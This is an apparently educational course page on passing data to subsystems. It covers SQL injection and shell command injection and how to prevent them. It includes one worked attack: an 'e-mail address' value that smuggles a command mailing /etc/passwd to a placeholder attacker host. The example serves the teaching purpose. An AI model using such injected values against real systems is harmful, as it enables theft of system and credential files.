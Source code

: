 ```yaml
---
layout: post
title: Les 2 - Passing data to subsystems
lesson: 2
---
```


SQL Injections en Shell injections.

## Downloads

[Powerpoint](https://drive.google.com/file/d/18gcORMbJGv5ODNqmnEF53Q2TkxOnAe8s/view?usp=sharing){:target="_blank"}  
[Lab 2](https://drive.google.com/file/d/1oUaWcYxbQvIKiDnrbtBBXVc0B3Jvzy2n/view?usp=sharing){:target="_blank"}

## Lesvideo
<iframe src="https://drive.google.com/file/d/1hmas99KjPcFx4q4rYP6pM968HNHYYEoV/preview" width="640" height="360" allowFullScreen allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>


## Aantekeningen
Most dynamic web applications pass data to one or more **subsystems**:
* SQL databases
* Operating systems
* Libraries
* Shell command interpreters
* XPath handlers
* XML documents
* Legacy systems
* Users’ browsers

We communicate with these subsystems by building **strings** that contain some **control information**, and some **data**.

To our application, the data parts of what we send are just strings; sequences of characters.
The characters strings may represent names, addresses, passwords, entire web pages, and just about everything.

**Metacharacters**  
When our application passes data around, the strings may reach a system in which one or more of the characters are **not treated as plain text**, but as **something special**.
When passing the border between our application and that subsystem, the character changes from being an information-carrying piece of a text to becoming a **control character**.

It has become a **metacharacter**, as it rises above the pure data.

Metacharacters are needed for many things, and they do not pose a threat by themselves.
The problems is raised when developers think they are passing pure data, and those "data" are found to contain characters that **make the subsystem do something else than we expect**.

An attacker may be able to **control** what the subsystem does, by **passing control information to the subsystem**.

### SQL Injection
In SQL Injection, an attacker is able to **modify** or **add** queries that are sent to a database by **playing** with input to the web application.
The attack works when a program builds queries based on strings from the client, and passes them to the database server **without** handling characters that have special meaning to the server.

**The issue:**  
Suppose we would like to make a web application that requires users to log-in
through a form:
![sql issue](\assets\images\ana_software_quality\lesson2\sql-issue.jpg)
How does a hacker attack it? ![sql attack](\assets\images\ana_software_quality\lesson2\sql-attack.jpg)

As our program just inserts the input unmodified in the query, what eventually is sent to the database looks like this:
![sql injection](\assets\images\ana_software_quality\lesson2\sql-injection-query.jpg)

The **two hyphens (- -)** make up an SQL comment introducer.
It effectively **inactivates** the test for a matching password!

Does it solve the issue if we filter out that double hyphen?
No. The hyphens are not part of the problem at all.

**The real problem**: The attacker is allowed to make the SQL parser **switch context**.

The solution involves **metacharacters**.

We should make them **lose** their **special meaning**, Either by handling them **manually**,
or preferably by building queries in a way in which there are **no metacharacters**.

1. **Neutralizing** SQL metacharacters
2. Using **prepared** statements

Character replacement solution in PHP:
![PHP example](\assets\images\ana_software_quality\lesson2\sql-neutralize-metacharacters.jpg)

**Prepared statements**  
Instead of handling the escaping of SQL metacharacters ourselves, we could use prepared statements.
In this method, query parameters are passed **separately** from the SQL statement itself.
When using prepared statements, there are **no metacharacters**.

Java example:
![Java prepared statement](\assets\images\ana_software_quality\lesson2\sql-prepared-statement.jpg)

Benefits:
1. We **don’t need to remember** all that metacharacter handling.
2. Prepared statements generally **execute faster** than plain statements, as they get parsed only once by the database server.

### Shell Command Injection
Programs written in web programming languages, such as Perl and similar languages often rely heavily on running **external commands** to perform many tasks.
When a Perl program runs an external command, the interpreter will in many cases **leave** the actual running of the program to an **operating system** shell, such as sh, bash, csh or tcsh.

Unfortunately, **shells** typically understand a large set of **metacharacters**, and one risks major security problems **if one doesn’t do any filtering**.


**Example:**  
In Unix, there has traditionally been a file called `/etc/passwd` that contains **information of all users**, including hashed representations of their **passwords**.

Imagine a Perl-based CGI script that for some reason sends someone an E-mail.
The E-mail is sent by piping the contents of the mail through the sendmail program. It needs the recipient address on the command line.
![email piping command](\assets\images\ana_software_quality\lesson2\email-piping-command.jpg)

The password-stealing intruder registers with the following "E-mail address":
```
foo@bar.example; mail badguy@badguy.example < /etc/passwd
```

When included in the sendmail invocation in the open statement above, the
commands executed by the shell will be:
```
/user/sbin/sendmail foo@bar.example;
mail badguy@badguy.example < /etc/passwd
```

Result?
1. First that call to sendmail.
2. Then a semicolon which again functions as a command separator
3. Finally a call to another common Unix mailer, mail, that actually **passes the entire `/etc/passwd` to the attacker**.

**Avoiding shell command injection**  
1. Identify when the shell is being used.
2. Handling and Disarming the shell metacharacters.
3. Avoiding user input in the command arguments.
4. Managing without the shell.

**1. Invocation of the shell**  
Identify **the functions** in your programming language that pass data to a command shell, or the ways to **invoke** a shell.

**2. Handling the shell metacharacters**  
Different shells have different metacharacters, and the use of the metacharacters differs too.

Metacharacters in Bash (GNU Bourne-Again SHell):
![bash metacharacters](\assets\images\ana_software_quality\lesson2\bash-metacharacters.jpg)

Solution 1: single quote encapsulation  
The **single quote encapsulation** is the strictest way to make the shell treat a text as just plain text.
* The single quotes are thus good for encapsulating data that do not contain single quotes.
* If data contain single quotes, we can still use single quote encapsulation if we **split** the string on all single quotes and glue quoted strings together using a **backslash-escaped single quote**.
![single quote encapsulation function](\assets\images\ana_software_quality\lesson2\single-quote-encapsulation.jpg)

Solution 2: Double quote encapsulation  
Another approach is to encapsulate the data string in **double quotes**.
* Inside a doubly quoted string, all characters except the following characters lose their special meaning: `` $ ` " \ ``
* Occurrences of these four special characters must be escaped using a **backslash**.

Solution 3: escape every metacharacter  
A third approach is to **escape every metacharacter** in the data string by **prefixing them with a backslash**.

It involves what is known as **blacklisting**.
We handle the characters we know are **unsafe**, and let the rest pass unchanged.
There are many metacharacters, and we may easily **miss** some of them.

Escaping shell metacharacters is hard, particularly **if we are not quite sure** what kind of shell will be used.

**3. Avoiding user input in the command arguments**  
If we can **avoid passing user data** on the command line, it becomes simpler.
In such cases neither the shell nor the target program may be tricked into doing nasty stuff by **command line arguments**.

**4. No Shell**  
In many cases we use the shell **just to launch an external program**.
If we do not need any of the **features** provided by the shell, we might just as well start the program directly.

Often, **we do not even need to run an external program** in order to do the job.
For example: for sending E-mails.
A person familiar with SMTP (Simple Mail Transfer Protocol) and network programming would be able to write Perl code to do the same in less than 100 lines.
